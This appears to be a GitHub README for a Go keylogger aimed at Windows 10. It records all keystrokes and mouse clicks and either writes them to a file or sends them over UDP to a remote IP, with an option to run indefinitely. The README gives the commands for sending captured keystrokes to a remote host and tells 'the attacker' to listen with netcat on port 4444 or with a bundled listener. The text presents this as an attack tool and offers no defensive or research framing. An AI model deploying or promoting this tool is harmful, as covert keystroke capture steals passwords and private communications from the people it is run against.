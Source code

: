# Go-Keylogger

This project is a keylogging tool written in the Go language intented to work on the Windows 10 OS. It is able to log all key strokes and mouse clicks, and and save logs to a file or send data using UDP to a given IP address. This is done using only Go's standard libraries.

# Usage

Run keylogger.exe on the command line with three command line arguments. The format is as follows:

```.\keylogger.exe [mode] [info] [duration]```

* Mode: Either 0 or 1, 0 for save to given file, and 1 for send to given IP address
* Info: If the mode is 0, this is used to provide a file name/path. If the mode is 1, this is used to provide an IP address.
* Duration: Number of seconds to run for. If -1, the application will run indefinitely until manually terminated.

For intance, to run for 60 seconds and save the data to a file called "log.txt", it should be:

```.\keylogger.exe 0 log.txt 60```

To run indefinitely and send to the host at 192.168.1.1, it should be:

```.\keylogger.exe 1 192.168.1.1 -1```

# Listening

When sending logged keystrokes to a remote host on the network, the attacker needs to listen on that machine on port 4444 for the data being sent.

* On Linux, this can be done very easily with netcat.

```nc -ulp 4444```

* On Windows, it may be easier to use listener.exe from listener.go from this repository.

```.\listener.exe```

This will listen indefinitely on port 4444 for the data being sent and will output it to stdout.
